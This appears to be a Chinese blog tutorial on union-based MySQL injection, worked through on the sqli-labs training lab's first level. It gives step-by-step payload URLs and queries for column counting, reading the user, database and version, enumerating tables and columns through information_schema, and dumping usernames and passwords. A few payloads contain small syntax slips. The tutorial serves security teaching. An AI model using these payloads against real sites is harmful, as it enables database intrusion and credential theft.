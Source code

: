 ```yaml
---
title: Mysql injection
date: 2019-07-01 16:35:53
tags: 
category: websec
---
```

基于 MYSQL的 注入漏洞
<!-- more -->

对于有回显的注入漏洞，我们可以通过联合查询，获取数据库数据,以 sqli-labs 第一关的实验为例子

# ![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843049567-dd99a231-caaf-47e3-828a-4f6c94170898.png#align=left&display=inline&height=303&name=image.png&originHeight=606&originWidth=2288&size=474017&status=done&width=1144)
**0x01 通过错误显示，我们可以进行单引号的测试（%23为#是 mysql 里面注释符号）**
```
// 真假条件测试
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=1%20%23
http://192.168.50.46:8081/Less-1/?id=1%27%20and%201=2%20%23
```
**0x02 接下来就要猜测数据库表有几行**
```
http://192.168.50.46:8081/Less-1/?id=1%20%27%20%20order%20by%204%20%23
// 解析出来就是
http://192.168.50.46:8081/Less-1/?id=1 ' order by 4 #
```
可以看到页面错误![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557843772120-ed92ba94-4001-4e61-972a-ef4e28f6d4f1.png#align=left&display=inline&height=275&name=image.png&originHeight=550&originWidth=2174&size=378950&status=done&width=1087)
最后得出其行数为 3 行。 
**0x03 记下来需要查看显示的字段，存在数据库的第几行。**
这里还涉及到 mysql的几个小知识点：

1. `select 1,2,3,4`  语句是 mysql 里面的打印语句，当你数据库没有数据，你有几行就可以按顺序打印
1. 根据需求，需要将这道题的 `id` 设置为不存在，否则将只打印数据库存在的字段，而不是1，2，3
```
// 设置 id 为0 select 1,2,3 %23
http://192.168.50.46:8081/Less-1/?id=0%20%27%20%20union%20select%201,2,3%23
```
得到
![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844250750-fffa777f-d20f-43ae-a06b-87190e3a01b8.png#align=left&display=inline&height=339&name=image.png&originHeight=678&originWidth=2282&size=410162&status=done&width=1141)
**0x04 通过关键函数获取信息**
`user()` 当前连接数据库的用户
`database()` 当前数据库的名称
`version()` 当前数据库名
连接函数：
`concat()` 
`concat_ws()` 
`group_concat()` 
使用下面的 POC
```
union select 1,2 concat_ws(char(58),user(),database(),version()) # 
union select 1,2, group_concat(user(),":",database(),":",version()) #
```
得到
![image.png](https://cdn.nlark.com/yuque/0/2019/png/290091/1557844703408-c06d0725-849d-4c62-a225-e61f4ddbecf0.png#align=left&display=inline&height=338&name=image.png&originHeight=676&originWidth=2288&size=531945&status=done&width=1144)
**0x05 获取表信息**
`information_schema.schemata`  存储了所有数据库名
`information_schame.tables`  存储了所有的数据库表，通过其字段名称 `table_name` ，可以查到所有的表
`information_schema.columns` 存储了所有字段，通过 `column_name` 可以查到所有的字段名

1. 获取数据库名
```
union select 1,2,(select group_concat(schema_name) from information_schema.schemata) #
```

2. 获取表名
```
union select 1,2 (select group_concat(table_name) from information_schema.tables where table_schema="security") #
```

3. 获取列信息
```
union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name="users") #
```

4. 获取数据
```
union select 1,2 (select group_concat(username,":",password) from users) # 
```


